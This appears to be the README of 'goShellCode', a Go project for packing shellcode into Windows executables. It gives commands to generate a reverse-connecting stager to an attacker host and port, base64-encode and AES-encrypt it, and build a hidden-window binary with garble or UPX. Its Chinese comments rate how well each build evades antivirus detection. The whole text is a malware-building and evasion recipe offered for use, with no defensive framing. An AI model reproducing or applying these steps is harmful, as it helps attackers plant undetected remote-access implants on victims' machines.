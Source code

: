 # goShellCode

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode

base64 -w 0 -i raw_shellcode > stager.bs64

go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat
